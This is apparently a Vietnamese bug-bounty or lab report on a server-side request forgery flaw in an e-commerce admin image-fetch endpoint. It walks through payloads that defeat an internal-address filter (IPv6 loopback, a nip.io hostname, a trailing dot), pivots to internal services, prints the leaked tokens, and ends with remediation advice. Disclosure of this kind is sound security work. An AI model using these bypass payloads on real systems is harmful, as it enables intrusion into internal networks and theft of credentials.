






# SSRF tại `/api/admin/products/:id/fetch-image` cho phép bypass internal-address protection và đọc secret từ internal services

## Summary

**Title:** Server-Side Request Forgery (SSRF) tại `POST /api/admin/products/:id/fetch-image` cho phép bypass cơ chế chặn địa chỉ nội bộ, pivot vào internal Docker network và đọc sensitive secrets.

**Suggested Severity:** **High**

**Affected endpoint:**

```http
POST http://admin.brewcart.cyberjutsu-lab.tech/api/admin/products/{id}/fetch-image
```

**Precondition:** Cần một session hợp lệ có quyền sử dụng chức năng quản lý sản phẩm trên admin panel.

Trong quá trình test, quyền truy cập admin được lấy thông qua một lỗi Broken Access Control đã được báo cáo riêng. Report này tập trung vào SSRF và impact của endpoint `fetch-image`.

Endpoint nhận URL do client kiểm soát:

```json
{
  "url": "http://example.com/image.jpg"
}
```

Server sau đó tự thực hiện HTTP request tới URL này và trả lại thông tin từ upstream, bao gồm:

- HTTP status của target.
- Content-Type.
- Kích thước response.
- Một phần response body trong field `preview`.

Mặc dù application có cơ chế chặn internal addresses, cơ chế này có thể bị bypass bằng nhiều dạng hostname khác nhau.

Sau khi bypass, SSRF cho phép truy cập các internal services như:

```text
ops-internal:8081
supplier-feed:8082
mailpit:8025
mysql:3306
```

và đọc được các secret:

```text
INTERNAL_API_TOKEN
supplier_api_key
signing_secret
```

---

## Root Cause

Behavior quan sát được cho thấy SSRF protection không canonicalize và validate đầy đủ destination cuối cùng trước khi server thực hiện outbound request.

Cụ thể:

- `127.0.0.1` bị chặn.
- `ops-internal` bị chặn.
- IPv6 loopback `[::1]` vẫn truy cập được.
- `127.0.0.1.nip.io`, mặc dù resolve về `127.0.0.1`, vẫn truy cập được.
- `ops-internal.` bypass được filter chỉ bằng trailing dot.
- Các Docker hostname như `nginx` và `backend` có thể được gọi trực tiếp.

Các kết quả trên strongly indicate rằng protection hiện tại dựa vào hostname-level filtering không đầy đủ thay vì validate một cách đáng tin cậy địa chỉ IP thực tế mà server sẽ kết nối tới.

---

## Reproduce

Sử dụng một admin session hợp lệ và gửi request tới:

```http
POST /api/admin/products/10/fetch-image
```

Thay giá trị `url` theo từng bước bên dưới.

---

### Bước 1. Xác nhận IPv4 loopback trực tiếp bị chặn

Gửi:

```json
{
  "url": "http://127.0.0.1:3000/"
}
```

Application trả:

```text
502 Bad Gateway
detail: "Chặn địa chỉ nội bộ"
```

Điều này xác nhận endpoint có SSRF protection đối với IPv4 loopback dạng thông thường.



---

### Bước 2. Bypass bằng IPv6 loopback `[::1]`

Thay URL bằng:

```json
{
  "url": "http://[::1]:3000/"
}
```

Lần này request không bị chặn.

Response trả:

```text
ok: true
status: 404
preview: {"error":"Không tìm thấy"}
```

`404` là status của service được fetch. `ok:true` xác nhận server đã thực sự thực hiện outbound request tới target.

Như vậy IPv6 loopback có thể bypass protection hiện tại.

---

### Bước 3. Bypass bằng public hostname resolve về loopback

Tiếp tục thử:

```json
{
  "url": "http://127.0.0.1.nip.io:3000/"
}
```

`127.0.0.1.nip.io` là một public hostname resolve về:

```text
127.0.0.1
```

Request vẫn thành công:

```text
ok: true
status: 404
preview: {"error":"Không tìm thấy"}
```

Response consistent với request tới service tại loopback port `3000`.

Điều này cho thấy protection không reject destination dựa trên resolved loopback IP.

Đây là DNS-based SSRF filter bypass; không cần DNS rebinding.

Evidence bên dưới chứa cả hai trường hợp bypass ở **Bước 2** và **Bước 3**:



---

### Bước 4. Xác nhận `ops-internal` bị chặn khi gọi trực tiếp

Thử internal service:

```json
{
  "url": "http://ops-internal:8081/"
}
```

Application trả:

```text
502 Bad Gateway
detail: "Chặn địa chỉ nội bộ"
```

Như vậy hostname `ops-internal` được protection hiện tại nhận diện và chặn.

Đây là service ops/admin nội bộ, đã biết địa chỉ này từ field `ops_dashboard` trong response `GET /api/admin/dashboard`.

---

### Bước 5. Bypass `ops-internal` bằng trailing dot

Chỉ thêm một dấu `.` vào cuối hostname:

```json
{
  "url": "http://ops-internal.:8081/"
}
```

Request thành công:

```text
ok: true
status: 200
```

Response chứa:

```text
BrewCart Ops Console
version: brewcart-ops 1.4.2
```

và tiết lộ internal service topology:

```text
supplier-feed -> http://supplier-feed:8082/
mailpit       -> http://mailpit:8025/
mysql         -> mysql:3306
```

Response cũng bắt đầu tiết lộ một `Worker token`, tuy nhiên giá trị bị truncate trong field `preview`.

So sánh trực tiếp bước này với bước trước cho thấy chỉ cần thêm trailing dot đã bypass được protection đối với `ops-internal`.

Evidence bên dưới đặt cạnh nhau request **bị chặn ở Bước 4** và request **bypass thành công ở Bước 5**:



---

### Bước 6. Đọc environment variables từ `ops-internal`

Sau khi truy cập được service, gọi:

```json
{
  "url": "http://ops-internal.:8081/env"
}
```

Endpoint trả environment data:

```json
{
  "APP_ENV": "production",
  "INTERNAL_API_TOKEN": "ops_internal_9d4f21ac77e0",
  "DB_HOST": "mysql",
  "SUPPLIER_FEED_URL": "http://supplier-feed:8082"
}
```

Sensitive token bị lộ:

```text
INTERNAL_API_TOKEN=ops_internal_9d4f21ac77e0
```

Khi được truy cập thông qua SSRF, `/env` trả dữ liệu trên mà không yêu cầu thêm application-layer credential.



---

### Bước 7. Pivot sang `supplier-feed:8082`

Từ `SUPPLIER_FEED_URL` ở bước trước, tiếp tục:

```json
{
  "url": "http://supplier-feed.:8082/"
}
```

Response:

```text
supplier-feed 2.1 — internal integration service
endpoints: /catalog (GET), /internal/keys (GET)
```

Internal service tự tiết lộ endpoint:

```text
/internal/keys
```

---

### Bước 8. Đọc API key và signing secret

Gọi:

```json
{
  "url": "http://supplier-feed.:8082/internal/keys"
}
```

Response trả trực tiếp:

```json
{
  "supplier_api_key": "sk_supplier_3b91f7c02e",
  "signing_secret": "whk_live_staging_7f2c9a1b3e5d"
}
```

Hai credential bị lộ:

```text
supplier_api_key=sk_supplier_3b91f7c02e
signing_secret=whk_live_staging_7f2c9a1b3e5d
```

Khi được truy cập thông qua SSRF, `/internal/keys` trả các secret này mà không yêu cầu thêm application-layer credential.

Đây là impact cao nhất đã trực tiếp chứng minh được trong quá trình test.

Evidence bên dưới chứa toàn bộ supplier chain: **discovery service ở Bước 7** và **credential disclosure ở Bước 8**:



---

### Bước 9. Bằng chứng bổ sung: một số internal Docker hostname không cần bypass

Ngoài trailing-dot bypass, một số Docker hostname khác có thể được gọi trực tiếp.

#### `nginx:80`

Gửi:

```json
{
  "url": "http://nginx:80"
}
```

Request thành công:

```text
ok: true
status: 200
```

Response chứa HTML của BrewCart frontend:

```html
<title>BrewCart – Cà phê rang mộc</title>
```

Điều này xác nhận SSRF có thể resolve và truy cập trực tiếp Docker hostname `nginx`.

#### `backend:3000`

Tiếp tục:

```json
{
  "url": "http://backend:3000"
}
```

Response:

```text
ok: true
status: 404
preview: {"error":"Không tìm thấy"}
```

Response này consistent với BrewCart backend tại port `3000`.

Quan trọng hơn, Docker hostname `backend` không bị SSRF protection chặn.

Evidence bên dưới chứa cả hai internal Docker hostname `nginx` và `backend`:



Việc `nginx` và `backend` được truy cập trực tiếp, trong khi `ops-internal` bị chặn, là bằng chứng bổ sung cho thấy SSRF protection hiện tại không thực hiện destination validation một cách đầy đủ và nhất quán.

---

## Automated PoC

Ngoài các bước reproduce thủ công ở trên, đây là một PoC script tự động thực hiện toàn bộ SSRF chain:

[PoC script](images/SSRF/ssrf_poc_full.py)

---

## Proof of Impact

Thông qua cùng một SSRF primitive tại:

```http
POST /api/admin/products/:id/fetch-image
```

attacker có thể pivot qua internal network và truy cập dữ liệu không thể truy cập trực tiếp từ Internet.

### Internal network topology

Đã xác nhận hoặc được internal service tiết lộ:

```text
ops-internal:8081
supplier-feed:8082
mailpit:8025
mysql:3306
nginx:80
backend:3000
```

### Production configuration disclosure

Từ:

```text
ops-internal.:8081/env
```

đọc được:

```text
APP_ENV=production
INTERNAL_API_TOKEN=ops_internal_9d4f21ac77e0
DB_HOST=mysql
SUPPLIER_FEED_URL=http://supplier-feed:8082
```

### Application secrets disclosure

Từ:

```text
supplier-feed.:8082/internal/keys
```

đọc được:

```text
supplier_api_key=sk_supplier_3b91f7c02e
signing_secret=whk_live_staging_7f2c9a1b3e5d
```

`mysql:3306` không phải HTTP service nên primitive hiện tại không cho phép đọc trực tiếp MySQL protocol traffic.

Endpoint cũng chỉ thực hiện HTTP GET tới target, không cung cấp raw-socket/Gopher primitive.

The demonstrated impact is unauthorized access to internal-only services, disclosure of internal network topology, production configuration, and multiple sensitive credentials.

---

## Additional Impact Testing

Sau khi lấy được các secret trên, tôi đã thử một số hướng nhằm xác định liệu impact có thể được leo thang thêm hay không.

### `INTERNAL_API_TOKEN`

Đã thử sử dụng token thông qua:

```text
Authorization: Bearer <token>
X-Internal-Token: <token>
X-Internal-Api-Token: <token>
```

đối với:

```text
/api/admin/dashboard
/api/admin/orders
/api/admin/customers
```

Kết quả vẫn trả:

```text
401 Cần đăng nhập
```

Không chứng minh được token này có thể thay thế admin session.

### `signing_secret` và `supplier_api_key`

Đã kiểm tra các webhook/callback/supplier route có thể xác định được trên public/admin application.

Không tìm thấy public endpoint nào trong scope hiện tại có thể sử dụng hai secret trên để chứng minh thêm integrity impact.

### JWT signing

Các secret lấy được cũng không verify được JWT HS256 hiện tại của BrewCart.

### SSRF write capability

`fetch-image` chỉ cho phép target được gọi bằng HTTP GET.

Không tìm thấy khả năng điều khiển HTTP method hoặc request body, vì vậy chưa chứng minh được khả năng thay đổi state trên internal services thông qua primitive này.

Do đó report chỉ claim impact đã trực tiếp chứng minh được:

```text
Internal network access
+
Sensitive configuration disclosure
+
Credential disclosure
```

Không claim RCE hoặc arbitrary internal state modification.

---

## Recommended Remediation

Root cause: hostname được kiểm tra trước khi resolve DNS, bằng blocklist string cố định không kiểm tra IP đích thật. Đây là lý do trailing dot, IPv6 literal, domain public trỏ loopback, và các tên host bị bỏ sót (`nginx`, `backend`) đều bypass được.

1. **Fix root cause:** resolve hostname → IP trước, rồi chặn theo IP đã resolve (không phải chuỗi hostname) nếu thuộc dải private/loopback/link-local (`127.0.0.0/8`, `10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`, `169.254.0.0/16`, `::1/128`, `fc00::/7`, `fe80::/10`). Bỏ hẳn cách check theo tên cố định.

2. **Kết nối tới đúng IP đã kiểm tra**, không để client resolve lại hostname ở bước connect (tránh DNS rebinding/TOCTOU).

3. **Validate lại destination ở mọi redirect hop** chưa test được hướng này, cần dev tự kiểm tra khi sửa.

4. **Ưu tiên allowlist domain ảnh cụ thể**, hoặc bỏ hẳn "server tự fetch URL", thay bằng upload trực tiếp (`multipart`).

5. **Không để `ops-internal`/`supplier-feed` trả secret qua endpoint không xác thực** (`/env`, `/internal/keys`) internal network không nên được coi là authentication boundary.

6. **Rotate ngay** `INTERNAL_API_TOKEN`, `supplier_api_key`, `signing_secret`.
